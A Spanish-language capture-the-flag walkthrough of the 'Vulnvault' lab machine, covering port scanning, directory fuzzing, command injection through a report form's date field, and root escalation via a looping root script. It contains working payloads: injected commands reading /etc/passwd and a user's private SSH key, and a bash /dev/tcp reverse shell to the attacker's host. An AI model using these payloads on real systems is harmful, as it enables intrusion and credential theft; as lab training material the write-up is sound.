


# **Máquina: Vulnvault**

### **Dificultad:** Fácil

### 📝 **Descripción:**

**Vulnvault** es una máquina diseñada para poner a prueba nuestras habilidades básicas de pentesting web. En ella, exploraremos técnicas de fuzzing, bypass de validaciones de subida de archivos, ejecución de comandos remotos e inyecciones maliciosas dentro de una funcionalidad aparentemente inofensiva. Esta máquina es ideal para practicar análisis de servicios y escalada de privilegios en entornos tipo CTF.

### 🎯 **Objetivo:**

Obtener acceso root explotando vulnerabilidades presentes en el sitio web, ganando acceso como un usuario válido mediante SSH, y posteriormente escalando privilegios mediante el abuso de procesos ejecutados automáticamente como root.


---

## 🖥️ **Despliegue de la máquina**

Descargamos el archivo `vulnvault.zip`, lo descomprimimos y desplegamos la máquina usando el script `auto_deploy.sh` proporcionado. Esto inicia la máquina vulnerable dentro de un contenedor Docker:

```bash
unzip vulnvault.zip
sudo bash auto_deploy.sh vulnvault.tar
```


---

## 📡 **Comprobación de conectividad**

Verificamos la conexión con un simple `ping` a la IP asignada (172.17.0.3):

```bash
ping -c1 172.17.0.3
```


---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Puertos descubiertos:

* **22/tcp** – SSH
* **80/tcp** – HTTP


Posteriormente, realizamos un escaneo más detallado sobre los puertos encontrados:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```


---

Entramos al servicio web alojado en [http://172.17.0.3/](http://172.17.0.3/), que es una página para generar reportes y permite subir archivos. Intentamos inicialmente ejecutar una reverse shell en PHP.


Realizamos fuzzing con Gobuster para descubrir rutas y archivos ocultos:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Rutas interesantes encontradas:

* `/index.php`
* `/upload.html`
* `/upload.php`
* `/old`


La ruta más llamativa fue `http://172.17.0.3/upload.php`, ya que muestra los archivos subidos. Aquí intentamos ejecutar nuestra reverse shell PHP.


Descargamos la shell desde [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell), la copiamos en un archivo `nano revshell.php`, y la subimos a través del panel.


---


Aunque el archivo se sube exitosamente, no se ejecuta al hacer clic, por lo que intentamos otra vía.

En `index.php`, al generar un reporte, se muestra la ruta del archivo generado, como `/var/www/html/reportes/reporte_1747547683.txt`, junto con una advertencia sobre comandos maliciosos. Esto sugiere una posible vulnerabilidad de inyección de comandos.


Realizamos pruebas ingresando comandos en el campo de **fecha** usando el separador `;`. Por ejemplo:

```bash
;cat /etc/passwd
```

Con esto logramos listar los usuarios del sistema y descubrimos la existencia del usuario `samara`.


Luego investigamos el directorio personal con:

```bash
;ls -la /home/samara
```

Encontramos archivos protegidos, pero accedimos a su clave SSH privada con:

```bash
;cat /home/samara/.ssh/id_rsa
```

Copiamos la clave a nuestra máquina, guardándola como `id_rsa`.


Cambiamos permisos y establecimos conexión SSH como el usuario `samara`:

```bash
chmod 700 id_rsa
ssh -i id_rsa samara@172.17.0.3
```


---

### 🔐 Escalada de privilegios

Como el usuario `samara`, intentamos lo habitual:

```bash
sudo -l
find / -perm -4000 2>/dev/null
```

Pero no obtuvimos resultados útiles. Entonces ejecutamos `ps aux` para revisar procesos en ejecución, y descubrimos uno muy interesante:

```bash
/bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done
```

Esto indica que el archivo `/usr/local/bin/echo.sh` se ejecuta en bucle **como root**, lo que nos da una vía para escalada.

Accedimos al directorio y listamos el contenido:

```bash
cd /usr/local/bin
ls
```

Intentamos editar el archivo con `nano`, pero falló por la variable `TERM`. Solucionamos el error así:

```bash
export TERM=xterm
nano echo.sh
```

Insertamos una reverse shell en el archivo:

```bash
#!/bin/bash
bash -i >& /dev/tcp/172.17.0.1/443 0>&1
```



Guardamos y salimos. En nuestra máquina atacante ejecutamos:

```bash
sudo nc -lvnp 443
```

Y tras unos segundos, obtuvimos una shell como `root`.



---

## ✅ **Conclusión**

La máquina **Vulnvault** nos permitió practicar diferentes vectores de ataque, desde el reconocimiento y explotación de servicios web hasta el uso de técnicas de inyección de comandos. Logramos obtener acceso como el usuario `samara` a través de una clave SSH extraída mediante inyección, y finalmente escalamos privilegios explotando un script ejecutado automáticamente como root. Esta máquina refuerza conceptos clave del pentesting y demuestra la importancia de validar correctamente entradas del usuario y proteger scripts con permisos elevados.

---

## 🔐 **Recomendaciones**

* Nunca almacenes claves privadas sin protección en directorios accesibles.
* Valida y sanitiza todas las entradas del usuario, especialmente en formularios que interactúan con el sistema.
* Evita ejecutar scripts como root sin restricciones ni controles adecuados.
* Asegúrate de que las rutas de carga de archivos sean seguras y no permitan ejecución directa.

---
